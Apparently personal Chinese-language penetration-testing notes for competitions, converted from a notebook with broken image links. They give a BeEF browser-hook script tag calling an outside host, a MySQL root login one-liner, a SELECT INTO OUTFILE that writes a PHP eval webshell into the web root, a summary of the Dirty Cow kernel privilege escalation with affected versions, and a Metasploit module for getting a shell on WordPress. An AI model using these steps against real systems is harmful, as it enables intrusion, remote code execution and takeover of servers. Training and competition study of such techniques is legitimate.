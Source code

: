 \<script src=\"<https://192.168.106.129:3000/hook.js>\"\>\</script\>

mysql -uroot -p123456 -e \"show databases;\" 登录时执行mysql命令

linux后渗透进去可以试试mysql能不能启用登录获得权限

mysql写木马先使用show variables like \"secure_file_priv\";

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image84.png){width="5.666666666666667in"
height="1.625in"}

很明显写入目录是网站目录，所以可以写入一句话木马并使用（80 open情况）

写入一句话

select \'\<?php \@eval(\$\_POST\[cmd\]);?\>\' into outfile
\"/var/www/html/x1ong.php\"

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image85.png){width="5.760416666666667in"
height="1.394899387576553in"}

**脏牛提权**

1.介绍

漏洞编号：CVE-2016-5195

漏洞名称：脏牛（Dirty Cow）

漏洞危害：低权限用户利用该漏洞可以在全版本linux系统上实现本地提权，获取root权限

影响范围：linux内核\>=2.6.22(2007年发行)开始就受影响了，2016.10.18才恢复

2.使用范围

发行版 内核版本

Centos7/RHEL7： 3.10.0-327.36.3.e17

Centos6/RHEL6： 2.6.32-642.6.2.e16

Ubuntu 16.10： 4.8.0-26.28

Ubuntu 16.04： 4.4.0-45.66

Ubuntu 14.04： 3.13.0-100.147

Debian 8： 3.16.36-1+debBu2

Debian 7： 3.2.82-1

比赛使用

gcc命令报错就说明行不通

WordPress：

当知道后台密码和用户可以开启msfconsole

搜索wp_admin_shell 调用exploit/unix/webapp/wp_admin_shell_upload

即可拿到shell
